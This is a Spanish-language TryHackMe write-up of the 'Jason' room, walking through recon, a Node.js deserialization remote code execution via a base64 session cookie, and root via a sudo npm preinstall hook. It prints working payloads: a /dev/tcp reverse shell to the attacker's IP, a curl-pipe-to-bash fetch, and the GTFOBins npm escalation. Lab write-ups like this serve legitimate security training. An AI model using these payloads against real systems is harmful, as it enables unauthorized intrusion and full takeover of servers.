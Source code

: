 ```yaml
---
layout: single
title: Jason - TryHackMe
excerpt: " We are Horror LLC, we specialize in horror, but one of the scarier aspects of our company is our front-end webserver. We can't launch our site in its current state and our level of concern regarding our cybersecurity is growing exponentially. We ask that you perform a thorough penetration test and try to compromise the root account. There are no rules for this engagement. Good luck!"
date: 2023-02-04
classes: wide
header:
  teaser: /blog/assets/images/thm-writeup-jason/jason.jpg
  teaser_home_page: true
  icon: /blog/assets/images/tryhackme.webp
categories:
  - tryhackme
tags:
  - javascript
  - nodejs
  - deserialization
  - burpsuite
  - base64
---
```


**We are Horror LLC,** we specialize in horror, but one of the scarier aspects of our company is our front-end webserver. We can't launch our site in its current state and our level of concern regarding our cybersecurity is growing exponentially. We ask that you perform a thorough penetration test and try to compromise the root account. There are no rules for this engagement. Good luck!

# Summary
- IP: 10.10.192.33
- Ports: 22,80
- OS: Linux (Ubuntu)
- Services & Applications:
	-  22 -> OpenSSH 8.2p1 Ubuntu 4ubuntu0.2
	-  80 -> http

# Recon

- Escaneo básico de puertos:

```bash
$nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.192.33 -oG allPorts
```


- Escaneo profundo de puertos encontrados:

```bash
$nmap -p22,80 -sCV 10.10.192.33 -oN targeted
```



# Análisis de página web usando Burpsuite:

- Entramos a la página web por el puerto 80 y vemos el siguiente mensaje: "Coming soon! Please sign up to our newsletter to receive updates."

- Adjunto también vemos un campo el cual se debe llenar con el email en el cual se quiere recibir las noticias de la página web en supuesta construcción.

- Al no encontrar nada más interesante, ingresamos un dato ramdon en el campo de "email" y le damos en "submit", inmediatamente nos damos cuenta que el dato que hemos ingresado se nos representa en el output de la página: "We'll keep you updated at: test@test.com"

	- Esto nos sugiere un posible XSS, sin embargo hacemos un análisis más profundo con Burpsuite.

- Ingresamos otro dato aleatorio y antes de dar en "submit" abrimos burpsuite e interceptamos la petición.

- En la respuesta por parte del servidor podemos ver la siguiente linea:

```http
Set-Cookie: session=eyJlbWFpbCI6InRlc3RAdGVzdC5jb20ifQ==; Max-Age=900000; HttpOnly, Secure
```

- Deducimos que la página web por detrás está estableciendo como cookie el valor representado, actualizamos la página principal interceptando de nuevo con Burpsuite para comprobar que la cookie se haya almacenado con el valor que vimos, obteniendo una petición GET con el siguiente contenido:

```http
GET / HTTP/1.1

Host: 10.10.192.33

User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

DNT: 1

Connection: close

Cookie: session=eyJlbWFpbCI6InRlc3RAdGVzdC5jb20ifQ==

Upgrade-Insecure-Requests: 1
```

- Como podemos ver, la cookie efectivamente se almacenó con el valor adjudicado en la petición anterior, mandamos esta petición al repeater de Burpsuite y analizamos el código cifrado:

```bash
$echo -n "eyJlbWFpbCI6InRlc3RAdGVzdC5jb20ifQ==" | base64 -d
```

- Lo cual nos devuelve el siguiente output:

```
{"email":"test@test.com"}
```

- Esto nos hace pensar que por detrás la página web está usando el formado json, el cual almacena el dato que nosotros ingresamos como cookie, serializándolo y haciendo el proceso inverso quedando este cifrado en base64.



# Explotación de NodeJS deserialization RCE:


- Buscamos vulnerabilidades que contemplen la serialización con NodeJS, posible framework ocupado en la actual página, y encontramos el siguiente archivo: [www.exploit-db.com](https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf)

- Analizando el contenido del archivo, podemos ver detalladamente en que consisten las funciones "serialize" y "unserialize" en JS, obteniendo como resultado final el siguiente payload:

```json
{"rce":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });\n }()"}
```


- Adecuamos el payload de acuerdo a los datos de la página en la que estamos trabajando, tratando de ejecutar una reverse shell básica, para esto, seguimos los siguientes pasos:

- Creamos una script "shell.sh" el cual contendrá la reverse shell:

```bash
$nano shell.sh
```

```bash
bash -i >& /dev/tcp/10.18.101.123/443 0>&1
```

- Iniciamos un servidor HTTP con python para poder acceder a la script creada:

```bash
$python3 -m http.server
```

- Ahora modificamos el payload antes encontrado para que ejecute un curl el cual establecerá un enlace con el archivo que hemos creado:

```json
{"email":"_$$ND_FUNC$$_function (){require('child_process').exec('curl http://10.18.101.123:8000/shell.sh | bash', function(error, stdout, stderr) { console.log(stdout) }); }()"}
```

- Con todo esto hecho, lo único que resta por hacer es ponernos en escucha en nuestra máquina atacante por el puerto 443 y cifrar el payload en base64 para mandarlo a la petición del repeater en Burpsuite:

- Usando el decoder de burpsuite podemos encodear el payload en base64, obteniendo la siguiente cadena:

```base64
eyJlbWFpbCI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbiAoKXtyZXF1aXJlKCdjaGlsZF9wcm9jZXNzJykuZXhlYygnY3VybCBodHRwOi8vMTAuMTguMTAxLjEyMzo4MDAwL3NoZWxsLnNoIHwgYmFzaCcsIGZ1bmN0aW9uKGVycm9yLCBzdGRvdXQsIHN0ZGVycikgeyBjb25zb2xlLmxvZyhzdGRvdXQpIH0pOyB9KCkifQ==
```


- Agregamos la cadena encodeada en donde antes estaba la cookie de la petición GET en el repeater de Burpsuite y damos en SEND:

- Habremos ganado acceso al sistema como el usuario "dylan"; hacemos el respectivo tratamiento de la tty.




# ESCALANDO PRIVILEGIOS:


- Vemos permisos de sudoers (sudo -l) y encontramos lo siguiente:

```
User dylan may run the following commands on jason:
    (ALL) NOPASSWD: /usr/bin/npm *
```

- Es decir, siendo el usuario "dylan" podemos ejecutar con el binario "npm" cualquier fichero, todo esto como root sin otorgar contraseña; hacemos una búsqueda en gtfobins para hallar una forma de escalar privilegios usando este binario, y encontramos los siguientes comandos:

```
TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
sudo npm -C $TF --unsafe-perm i
```

- Ejecutamos los comandos y seremos root.
